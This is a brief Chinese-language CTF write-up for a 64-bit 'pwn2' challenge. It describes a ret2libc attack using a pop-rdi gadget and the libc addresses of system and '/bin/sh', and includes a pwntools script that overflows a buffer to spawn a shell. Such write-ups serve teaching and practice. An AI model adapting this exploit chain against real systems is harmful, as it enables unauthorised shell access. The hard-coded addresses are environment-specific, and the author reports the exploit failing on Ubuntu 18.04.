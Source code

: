 一樣有 magic 函式，裡面變成`system('/bin/ls')`
但是我們想要的是 /bin/sh

binary中沒有 /bin/sh 可以去 .so 裡面找

![](https://i.imgur.com/1VAqHx9.png)

透過 ldd 發現是用 libc.so.6 (題目有給)

題目檔案是 64-bit
> pwn2: ELF 64-bit LSB executable, x86-64

可以利用 ret2libc 手法 搜集 pop_rdi_ret, binsh_addr, system_addr

![](https://i.imgur.com/bN75qUA.png)

> pop_rdi_ret 0x00000000004006d3

![](https://i.imgur.com/sKcGyCc.png)

> system_libc_addr 0x7ffff7a52390

> binsh_libc_addr 0x7ffff7b99d57


```python
from pwn import *
#p = remote('10.140.0.8', 11112)
p = process('./pwn2')
offset = 'a' * 16
target_addr = 0x04005f7
prr = p64(0x00000000004006d3)
binsh = p64(0x7ffff7b99d57)
system = p64(0x7ffff7a52390)

payload = offset + prr + binsh + system
p.sendline(payload)
p.interactive()
```


比賽時在local測試一直不行，找不出原因(ubuntu18.04)。
後來用16.04才發現local可以，但是也無法連到遠端測試了
